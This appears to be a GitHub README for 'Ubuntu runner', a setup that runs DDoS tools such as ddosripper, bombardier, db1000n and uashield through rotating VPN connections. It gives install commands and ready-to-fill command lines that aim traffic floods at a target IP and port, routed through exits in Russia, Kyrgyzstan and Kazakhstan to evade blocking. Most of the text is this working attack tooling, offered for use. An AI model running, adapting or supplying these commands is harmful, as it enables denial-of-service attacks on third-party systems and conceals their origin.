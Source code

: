 # Ubuntu runner
Script thay runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
cd / && sudo rm -rf runner && \
sudo git clone https://github.com/ctukraine22/runner && \
cd /runner && bash install.sh
```
# Run

## Template

```
cd /runner && . ./runner.sh && init 0 0 %vpn-user% %vpn-pass% %vpn-type% "vpn-counties" %vpn-servers% %vpn-transport% && %tool%
```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see wiki

To use cyberhost you need fork this repo and replace key and crt: https://github.com/qdm12/gluetun/wiki/Cyberghost
run uashield on cyberhost
```
cd /runner && . ./runner.sh && init 0 0 %user% %pass% cyberghost "Russian Federation" 97-1-ru.cg-dialup.net tcp && uashield
```
run uashield on expressvpn
```
cd /runner && . ./runner.sh && init 0 0 %user% %pass% expressvpn Kyrgyzstan kyrgyzstan-ca-version-2.expressnetw.com && uashield
```
run ddosripper for %ip% %port% on expressvpn
cd /runner && . ./runner.sh && init %ip% %port% %user% %pass% expressvpn Kazakhstan && ddosripper

# Supported tools
- runAll: ddosripper/bombardier
- db1000n
- checksites
- ddosripper
- uashield
- bombardier
- kali